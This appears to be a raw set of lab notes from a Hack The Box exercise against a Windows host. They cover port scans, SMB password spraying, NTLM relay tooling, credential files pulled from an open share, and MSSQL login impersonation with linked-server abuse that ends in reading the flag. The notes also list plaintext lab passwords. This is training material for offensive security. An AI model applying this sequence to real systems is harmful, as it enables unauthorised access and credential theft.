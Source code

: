## LAB HARD

simon:8Ns8j1b!23hs4921smHzwn
fiona:987654321

xfreerdp /u:simon /p:"H8Ns8j1b!23hs4921smHzwn!" /v:$TARGET
xfreerdp /u:fiona /p:"987654321" /v:$TARGET

nmap -sV -oA nmap $TARGET --stats-every=5s
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-23 11:36 GMT
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.23 seconds

nmap -sV -sC -Pn $TARGET --stats-every=5s

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-11-23T11:36:03
|_Not valid after:  2053-11-23T11:36:03
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-11-23T11:41:37+00:00; +1s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-23T11:40:57+00:00
|_ssl-date: 2023-11-23T11:41:37+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2023-11-22T11:35:54
|_Not valid after:  2024-05-23T11:35:54
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-11-23T11:41:02
|_  start_date: N/A

135 : WMI
445 : SMB
1433 : MSSQL
3389 : RDP

rpcclient -U'%' $TARGET
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED

smbmap -H $TARGET
[!] Authentication error on 10.129.42.136

crackmapexec smb $TARGET -u simon -p password.list --local-auth

SMB         10.129.42.136   445    WIN-HARD         [+] WIN-HARD\simon:liverpool 

crackmapexec smb $TARGET -u fiona -p password.list --local-auth

sudo responder -I tun0

impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET

smbclient -N -L //$TARGET

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Home            Disk      
	IPC$            IPC       Remote IPC


smbclient -N //$TARGET/Home

cat creds.txt 
Windows Creds

kAkd03SA@#!
48Ns72!bns74@S84NNNSl
SecurePassword!
Password123!
SecureLocationforPasswordsd123!!

cat notes.txt 
Hack The Box is a massive, online cybersecurity training platform, allowing individuals, companies, universities and all kinds of organizations around the world

cat random.txt 
Credentials

(k20ASD10934kadA
KDIlalsa9020$
JT9ads02lasSA@
Kaksd032klasdA#
LKads9kasd0-@

cat secrets.txt 
Password Lists:

1234567
(DK02ka-dsaldS
Inlanefreight2022
Inlanefreight2022!
TestingDB123


crackmapexec smb $TARGET -u fiona -p smb_password.list --local-auth

SMB         10.129.42.136   445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl


crackmapexec smb $TARGET -u John -p smb_password.list --local-auth

SMB         10.129.42.136   445    WIN-HARD         [+] WIN-HARD\John:kAkd03SA@#! 

smbclient -U John \\\\$TARGET\\ADMIN$

smbclient -U John \\\\$TARGET\\ADMIN$
Password for [WORKGROUP\John]:
tree connect failed: NT_STATUS_ACCESS_DENIED


xfreerdp /u:fiona /p:"48Ns72!bns74@S84NNNSl" /v:$TARGET
xfreerdp /u:fiona /v:$TARGET

sqlcmd -S WIN-HARD -U fiona -P '48Ns72!bns74@S84NNNSl' -y 30 -Y 30
Password: Sqlcmd: Error: Microsoft ODBC Driver 17 for SQL Server : Login failed for user 'fiona'..

sqlcmd -S WIN-HARD

1> SELECT name FROM master.dbo.sysdatabases
2> GO
name                                                                                                                    
--------------------------------------------------------------------------------------------------------------------------------
master                                                                                                                  
tempdb                                                                                                                  
model                                                                                                                   
msdb                                                                                                                    
TestingDB                                                                                                               
TestAppDB                                                                                                               

(6 rows affected)

1> USE master
2> GO
Changed database context to 'master'.

1> USE master
2> GO
Changed database context to 'master'.
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
name                                                                                                                    
--------------------------------------------------------------------------------------------------------------------------------
john                                                                                                                    
simon                                                                                                                   

(2 rows affected)

1> EXECUTE AS LOGIN = "john"
2> GO
1> SELECT SYSTEM_USER
2> GO
                                                                                                                        
--------------------------------------------------------------------------------------------------------------------------------
john                                                                                                                    

(1 rows affected)
1> SELECT IS_SRVROLEMEMBER('sysadmin')
2> GO

-----------
          0

1> SELECT srvname, isremote FROM sysservers
2> GO
srvname                                                                                                                          isremote
-------------------------------------------------------------------------------------------------------------------------------- --------
WINSRV02\SQLEXPRESS                                                                                                                     1
LOCAL.TEST.LINKED.SRV                                                                                                                   0

(2 rows affected)
1>

EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [WINSRV02\SQLEXPRESS]

Msg 7437, Level 16, State 1, Server WIN-HARD\SQLEXPRESS, Line 1
Linked servers cannot be used under impersonation without a mapping for the impersonated login.

1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
2> GO
                                                                                                                                                                                                                                                                                                                   
-------------------------------------------------------------------------------------------------------------------------------- ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ -------------------------------------------------------------------------------------------------------------------------------- -----------
WINSRV02\SQLEXPRESS                                                                                                              Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
        Sep 24 2019 13:48:23
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
                                                                                     testadmin                                                                                                                                  1

(1 rows affected)


EXECUTE('SELECT * FROM OPENROWSET(BULK ''C:/Users/Administrator/Desktop/flag.txt'', SINGLE_CLOB) AS Contents') AT [LOCAL.TEST.LINKED.SRV]
2> GO
BulkColumn                                                                                                                                                                                                                                      
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
HTB{46u$!n9_l!nk3d_$3rv3r$}                                                                                                                                                                                                                   

(1 rows affected)